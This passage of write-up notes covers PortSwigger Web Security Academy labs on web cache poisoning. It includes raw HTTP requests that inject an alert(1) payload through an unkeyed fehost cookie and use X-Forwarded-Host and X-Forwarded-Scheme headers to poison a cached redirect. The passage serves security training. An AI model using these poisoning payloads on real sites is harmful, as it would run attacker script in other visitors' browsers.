 If we visit the page with another browser, the script will be executed. The cache expires every 30 seconds.

### Lab: Web cache poisoning with an unkeyed cookie

This lab is vulnerable to web cache poisoning because cookies aren't included in the cache key. A user visits the home page roughly once a minute. To solve this lab, poison the cache with a response that executes alert(1) in the visitor's browser.

```
GET /?cb=123 HTTP/1.1
Cookie: session=OvSzN7yFPNqTkWU3gr3irfw6Q2dIX6xp; fehost=prod-cache-01

In the response:
<script>
data = {
    "host":"ac4b1f491f0d03c1c0449f4e003e0077.web-security-academy.net",
    "path":"/",
    "frontend":"prod-cache-01"
}
</script>
```

```
GET /?cb=123 HTTP/1.1
Cookie: session=OvSzN7yFPNqTkWU3gr3irfw6Q2dIX6xp; fehost=test

In response:
"frontend":"test"
```

**Solution:**

```
prod-cache-01"-alert(1)-"

GET / HTTP/1.1
Cookie: session=OvSzN7yFPNqTkWU3gr3irfw6Q2dIX6xp; fehost=prod-cache-01"-alert(1)-"

In response:
"frontend":"prod-cache-01"-alert(1)-""
```

### Lab: Web cache poisoning with multiple headers

This lab contains a web cache poisoning vulnerability that is only exploitable when you use multiple headers to craft a malicious request. A user visits the home page roughly once a minute. To solve this lab, poison the cache with a response that executes alert(document.cookie) in the visitor's browser.

****[**https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Forwarded-Proto**](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Forwarded-Proto)****

```
GET /resources/js/tracking.js HTTP/1.1
...
X-Forwarded-Host: test1
X-Forwarded-Scheme: http

In the response:
HTTP/1.1 302 Found
Location: https://test1/resources/js/tracking.js
Cache-Control: max-age=30
Age: 0
X-Cache: miss
Connection: close
Content-Length: 0
```
